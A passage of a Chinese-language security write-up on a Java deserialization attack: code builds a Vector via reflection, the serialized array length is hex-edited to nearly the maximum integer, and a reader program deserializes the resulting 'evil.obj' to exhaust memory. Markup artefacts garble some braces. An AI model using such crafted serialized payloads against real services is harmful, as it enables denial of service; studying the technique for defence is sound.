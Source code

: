 ```
            e.printStackTrace();
        `}` catch (IllegalAccessException e) `{`
            e.printStackTrace();
        `}`
    `}`
    private static Vector&lt;Object&gt; generateObj(Object root) throws NoSuchFieldException, IllegalAccessException `{`
        Vector&lt;Object&gt; vec = new Vector&lt;&gt;();
        //为了后面方便修改替换，这里把vector的内部数组长度改为123
        Object[] objects1 = new Object[123];
        //设置数组的第一个元素为
        objects1[0]=root;
        Field elementData = vec.getClass().getDeclaredField("elementData");
        elementData.setAccessible(true);
        elementData.set(vec,objects1);
        return vec;
    `}`
`}`
```
1. 把Object数组的长度从123（16进制为00 00 00 7B）改成一个比较大的数（java最大允许的数组长度为MAX_INT-2=2147483645，十六进制为7F FF FF FD）通过HxD修改序列化数据中的数组长度，修改前：
[![](https://p4.ssl.qhimg.com/t01fff0bacc2c98e027.png)](https://p4.ssl.qhimg.com/t01fff0bacc2c98e027.png)

修改后：

[![](https://p4.ssl.qhimg.com/t01bac3a678cfda602f.png)](https://p4.ssl.qhimg.com/t01bac3a678cfda602f.png)

（感觉以上过程可以用n1nty师傅的[https://github.com/QAX-A-Team/SerialWriter实现](https://github.com/QAX-A-Team/SerialWriter%E5%AE%9E%E7%8E%B0))



## 反序列化

运行代码：

```
import java.io.*;
   public class testRead `{`
       public static void main(String[] args)`{`
           try `{`
               System.out.println("Start ReadObject");
               FileInputStream FIS = new FileInputStream("evil.obj");
               ObjectInputStream OIS = new ObjectInputStream(FIS);
               OIS.readObject();
           `}` catch (FileNotFoundException e) `{`
               e.printStackTrace();
           `}` catch (IOException e) `{`
               e.printStackTrace();
           `}` catch (ClassNotFoundException e) `{`
               e.printStackTrace();
           `}`
       `}`
   `}`
```
